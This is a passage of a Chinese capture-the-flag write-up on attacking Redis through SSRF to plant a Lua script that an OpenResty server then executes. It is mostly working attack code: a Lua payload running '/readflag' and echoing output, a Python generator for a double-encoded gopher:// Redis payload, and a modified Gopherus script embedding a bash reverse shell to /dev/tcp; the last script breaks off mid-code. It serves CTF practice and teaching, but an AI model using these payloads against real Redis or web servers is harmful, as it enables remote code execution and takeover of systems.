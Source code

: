   
**注意**  
：由于**redis save保存的是二进制信息会有版本之类的信息（脏数据）**  
，所以单纯的写入并不能执行会报错。题目中的读取是有##LUA_START## ##LUA_END##  
包裹的，所以才能准确执行。  
  
#### lua回显打法  
  
如果不出网可以这样回显，把lua命令执行的结果到浏览器中  
```
local handle = io.popen('/readflag') 
local output = handle:read("*a") 
handle:close() 
ngx.say("<html><body>") 
ngx.say("<h1>Command Output:</h1>") 
ngx.say("<pre>" .. ngx.escape_html(output) .. "</pre>")
```  
  
编写脚本 bp上传二次编码即可  
```
import urllib.parse
host = "127.0.0.1:6379"
test =\
r"""set  margin  "\n\n\n##LUA_START##ngx.say((function() local f = io.popen('/readflag');local r = f:read('*all');f:close();return r end)())##LUA_END##\n\n\n"
config set dir /scripts/
config set dbfilename "visit.script"
save"""
tmp = urllib.parse.quote(test)
new = tmp.replace("%0A","%0D%0A")
a="gopher://"+host+"/_"+new
result = urllib.parse.quote(a)
print(result)
```  
  
当然我们修改gopherus工具的/scripts/Redis.py来生成payload写入文件(原来的功能是写入计划任务反弹shell)  
```
import urllib
def Redis():
    def get_Redis_ReverseShell():
        file="visit.script"
        dir="/scripts"
        cmd = '##LUA_START##os.execute("bash -c \'sh -i &>/dev/tcp/ip/port 0>&1\'")##LUA_END##'
        len_cmd = len(cmd) + 5
        payload = """*1\r
$8\r
flushall\r
*3\r
$3\r
set\r
$1\r
1\r
$""" + str(len_cmd) + """\r
""" + cmd + """
\r
*4\r
$6\r
config\r
$3\r
set\r
$3\r
dir\r
$""" + str(len(dir)) + """\r
""" + dir + """\r
*4\r
$6\r
```